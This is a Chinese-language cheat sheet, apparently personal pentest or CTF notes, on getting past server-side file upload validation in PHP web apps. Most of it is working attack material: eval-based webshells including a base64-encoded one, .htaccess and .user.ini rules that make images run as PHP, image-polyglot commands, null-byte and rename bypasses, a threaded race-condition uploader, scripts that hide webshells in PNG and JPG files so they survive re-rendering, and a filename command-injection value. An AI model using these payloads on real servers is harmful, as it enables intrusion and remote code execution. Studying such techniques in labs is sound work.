


## **后端校验文件上传绕过**

### **1. 后端文件后缀校验**
#### 后端白名单后缀校验：
```
后端白名单校验图片后缀代码：
in_array($str,["png","jpg","gif"])
```
本地把.php后缀修改为.png绕过上传，但是.png不会当php脚本解析。
解决：
**1.apache有控制配置文件.htaccess**
>php服务器apache有控制配置文件.htaccess，在一个目录下有了.htaccess文件，
可以通过.htaccess文件里配置实现：网页301重定向，自定义404错误页面，修改解析文件扩展名，配置默认文档，禁止显示文件目录列表等。

所有php包含
```
一种配置是`php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"`  这是Apache配置指令，用于设置PHP的`auto_prepend_file`指令。`auto_prepend_file`指令指定了一个PHP文件，该文件将在每个PHP脚本执行之前自动被包含和执行。这里指定的文件是一个使用PHP协议的伪URL，它首先对`poc.jpg`文件进行Base64解码，然后包含解码后的内容作为PHP代码执行。
一句话木马密码cmd：
GIF89a66
PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==
```

```
绕过php的exif_imagetype()，.htaccess可以加个文件头，#正好被当做XBM图片的文件开头
#define width 1337 
#define height 1337
```


可以尝试上传自定义的.htaccess文件到文件上传目录，实现当前目录的png文件当php脚本解析。
.htaccess文件内容:
```
AddType application/x-httpd-php .png
```

指定文件名jz.jpg当作php解析
```
<FilesMatch "jz">
SetHandler application/x-httpd-php
</FilesMatch>
```

应用：<https://www.cnblogs.com/Article-kelp/p/16097100.html#:~:text=%E8%BF%87%E7%A8%8B.%20%E6%89%93%E5%BC%80%E9%A2%98%E7%9B%AE%E5%B0%B1%E8%83%BD>


**2.利用中间件解析漏洞。**

**3.更广的.user.ini**
它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。
但是需要上传的目录有一个index.php了，原因：.user.ini中auto_prepend_file=shell.jpg会在执行index.php前把shell.jpg包含进来。
<https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html>
```
GIF89a
auto_prepend_file=shell1.jpg
```
访问index.php即可。

配合日志包含：
```
auto_prepend_file=/var/log/nginx/access.log
```


^
#### 后端黑名单后缀校验：
```
后端黑名单校验图片后缀代码：
in_array($str,["php","jsp","asp"])

php服务器apache默认ph文件后缀当php脚本解析的，开发者没有考虑到而遗漏
把.php后缀改为以下：
phtml  >  php3  >  php3p php4 phps php5 pht phar

配置在apache的文件中：
<FilesMatch \.ph(p[345]?|tml)$>
    SetHandler application/x-httpd-php
</FilesMatch>

```


### **2. 后端媒体MIME类型校验**
MIME类型即为content-type : type/subtype
bp抓包修改为：image/jpeg

### **3. 后端文件头/文件校验**
>文件的文件头：文件的开头部分，其中包含有关文件的一些元信息。这些元信息可能包括文件类型、编码方式、版本信息、作者、创建日期等。文件头的内容和格式取决于文件的类型和应用程序的实现。


>vscode看文件的16进制格式插件：hexeditor,我的快捷键x+e
   浏览器看图片源码:view-source: xxx.png

常见文件格式的文件头：
```
JPEG(jpg):FFDBFF
PNG(png):89504E47
GIF : 47494638
ascii值为：GIF89
ZIP : 504B0304
rar : 52617221
pdf : 2550444620312E
xls/doc : DOCF11E0

后端校验图片文件头代码：
in_array(bin2hex($bin),["FFDBFF","89504E47","47494638"])
exif_imagetype($filename)函数通过读取文件的前几个字节来确定文件类型，并返回相应的IMAGETYPE常量
```
**绕过文件头校验：**
生成图片木马：将一句话php文件合成加入图片后面，生成合成图片png
上传合成的png，再bp改包改为php(前端校验)。或通过截断、解析漏洞等方式，将图片马以脚本的格式解析才能使图片马生效。


合成一张小图片png和php文件：
```
windows下命令：
copy pic.png/b + info.php/a  shell.png
图片以二进制的格式和php以acaii格式融合，生成shell.png文件
用16进制工具打开查看生成效果。

linux下命令:
cat追加
cat info.php >> pic.png
cat合成
cat pic.png info.php >> shell.png
echo直接追加代码
echo '<?php phpinfo(); ?>'   >>  pic.png
```
或直接抓包在POST包中，内容前加ascii值为：GIF89。
绕过exif_imagetype()函数
如
```
GIF89
<script language="php">@eval($_POST['cmd'])</script>
```

**文件内容检测禁用：**
可以先yakit跑字符看哪些字符被禁。
禁用了<?，用
```
<script language="php">@eval($_POST['cmd'])</script>
```
禁用php字符，用
```
<?= @eval($_POST['hack']); ?>
<?Php  @eval($_POST['hack']); ?>

<? echo'123';?>/ /short_open_tags=on
<?=（表达式)?> //等价于<?phpecho（表达式)？>//无限制
```
禁用[]字符，用$_POST{'1'};
```
<? @eval($_POST{'x'}); ?>
或直接执行
<? system("nl ../fla*") ?>
<?=`nl ../fl*`?>
<?=`tac ../fl*`;
```
配合日志包含
```
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```


^
^
## **后端文件上传二次处理绕过**
### **1. 上传文件重命名**
上传文件重命名导致不能解析成php。
1. 把上传的文件名在黑名单的替换为空：
```
$name = str_ireplace("php","",$name);
str_ireplace大小写一起替换
让$name=shell.pphphp
```
2. 把上传的文件名在黑名单的替换为空字符串：
```
$name = str_replace("php"," ",$name);
让$name=shell.PHP
大小写绕过
```
### **2. 其他绕过**
<https://www.kancloud.cn/user1157546548/hw_tips/2971781>
### **3. 0:0截断**
查看phpinfo()是否php<5.3.4（老网站很多php5.2）
默认的mgic_quotes_gpc=off 没有修改
例题wp：<https://www.cnblogs.com/0yst3r-2046/p/12530316.html>
后端会将上传的文件在文件名后缀上 自定义＋.png
使用00截断后面加上的自定义.png：
```
上传的地址/+a.php%00
POST中:a.php+（%00url解码）
a.php龍龍

1.aspx%00aspx.jpg
555555.aspx%00aspx.jpg可以多加名称长度直到留下.aspx
```


### **4. 条件竞争**
上传任意文件响应都是200，但是访问却没有。
后端的上传文件处理可能是先上传文件放在目录后才判断是否合规。
利用CPU处理的时间差，访问上传的木马生成子马。
上传shell后，利用还未清除的一段时间，疯狂访问shell，执行木马shell，生成子马。
```
<?php
$f=fopen("7.php","w");
fputs($f,'<?php eval($_POST[7]);?>');?>
```
一个不停上传，一个不停访问。
```
# coding:utf-8
import requests
from concurrent.futures import ThreadPoolExecutor


def td(list):
    url = 'http://localhost/upload-labs/Pass-17/index.php'
    files = {'upload_file': (
        'szm.php', "<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])；  ?>' ); ?>")}
    data = {'submit': '上传'}
    r = requests.post(url=url, data=data, files=files)

    re = requests.get('http://localhost/upload-labs/upload/szm.php')
    if re.status_code == 200:
        print('上传成功')


if __name__ == '__main__':
    with ThreadPoolExecutor(20) as p:
        p.map(td, range(200))
```


### **5. 二次渲染**
形如：/download.php?image=e04b7fb2d790bed075a90916ecd43ff1.png
download.php里文件包含image的上传的图片路径，但是后端使用了图片文件头校验并对上传的图片进行二次压缩，裁剪等渲染。
如php函数: imgecreatefromgif($upload);
处理后图片中尾部的php木马可能失效：直接图片马的php代码一般在底部会被压缩掉。
>vscode看文件的16进制格式插件：hexeditor,我的快捷键x+e
   浏览器看图片源码:view-source: xxx.png


解决：在图片中部插入php脚本
1. 自己写入 https://xz.aliyun.com/t/2657
2. 用别人写入好的图片和密码 ,注意区分png、jpg格式
png
```
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./7.png');
?>
//<?=$_GET[0]($_POST[1]);?>
//?0=system
```
jpg
```
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
    //php jpg_payload.php 先上传原图渲染过的图.jpg
    //<?=eval(\$_POST[1]);?>

    $miniPayload = "<?=eval(\$_POST[1]);?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    str_repeat("\0",$nullbytePayloadSize) .
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream =
                        substr($outStream, 0, $startPos) .
                        $miniPayload .
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```


^
### **其他自定义截断**
如*号截断
```
filename="shell1.php*.png"
```


^
### **文件上传后回显文件内容**
可能存在文件名命令执行

文件名1.jpg;cat flag.py


^
## **配合目录穿越绕过匹配漏洞**
如：不是php结尾
```
shell.php/1.php/..
```


^
## **配置apache解析漏洞**
